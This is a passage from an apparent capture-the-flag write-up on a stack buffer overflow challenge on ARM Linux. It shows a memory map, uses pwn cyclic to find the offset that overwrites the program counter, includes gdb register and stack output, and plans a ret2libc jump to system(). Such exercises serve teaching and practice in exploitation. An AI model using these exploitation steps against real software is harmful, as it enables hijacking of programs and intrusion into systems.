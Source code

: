 ```code
0x76fa3000 0x76fb3000 0x00138000 --- /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb3000 0x76fb5000 0x00138000 r-x /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb5000 0x76fb6000 0x0013a000 rwx /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb6000 0x76fb9000 0x00000000 rwx
0x76fb9000 0x76fbd000 0x00000000 r-x /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fbd000 0x76fcc000 0x00004000 --- /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fcc000 0x76fcd000 0x00003000 r-x /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fcd000 0x76fce000 0x00004000 rwx /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fce000 0x76fee000 0x00000000 r-x /lib/arm-linux-gnueabihf/ld-2.28.so
0x76ff9000 0x76ffb000 0x00000000 rwx
0x76ffb000 0x76ffc000 0x00000000 r-x [sigpage]
0x76ffc000 0x76ffd000 0x00000000 r-- [vvar]
0x76ffd000 0x76ffe000 0x00000000 r-x [vdso]
0x76ffe000 0x76fff000 0x00020000 r-x /lib/arm-linux-gnueabihf/ld-2.28.so
0x76fff000 0x77000000 0x00021000 rwx /lib/arm-linux-gnueabihf/ld-2.28.so
0x7efdf000 0x7f000000 0x00000000 rwx [stack]
0xffff0000 0xffff1000 0x00000000 r-x [vectors]

```

The check `if( buffer[83] >= 0x7e && buffer[83] <=0x7f )` is introduced by me to prevents a jump in an address mapped in the stack `[0x7efdf000 0x7f000000]`. The idea, according with the blogpost, is to jump to the `system()` which has `0x76ea39c8` as address.

As explained in the challenge `stack4`, we can use `pwn cyclic` where place in our user input the address to jump.

`pwn cyclic 90` and we generate a string which will support us:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa`

and let's use it continuing the execution of the program

```code
input path please: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
got path aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGBUS, Bus error.
0x61616172 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x5a      
$r1  : 0x0       
$r2  : 0x33c06200
$r3  : 0x33c06200
$r4  : 0x0       
$r5  : 0x000105d0  →  <__libc_csu_init+0> push {r4,  r5,  r6,  r7,  r8,  r9,  r10,  lr}
$r6  : 0x00010400  →  <_start+0> mov r11,  #0
$r7  : 0x0       
$r8  : 0x0       
$r9  : 0x0       
$r10 : 0x76fff000  →  0x00030f44  →  0x00000000
$r11 : 0x61616171 ("qaaa"?)
$r12 : 0x6c      
$sp  : 0x7efff448  →  "saaataaa"
$lr  : 0x00010588  →  <getpath+152> nop ; (mov r0,  r0)
$pc  : 0x61616172 ("raaa"?)
$cpsr: [negative ZERO CARRY overflow interrupt fast thumb]
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x7efff448│+0x0000: "saaataaa"	 ← $sp
0x7efff44c│+0x0004: "taaa"
0x7efff450│+0x0008: 0x00000000
0x7efff454│+0x000c: 0x76e82718  →  <__libc_start_main+268> bl 0x76e99780 <__GI_exit>
0x7efff458│+0x0010: 0x76fb5000  →  0x00149f10
```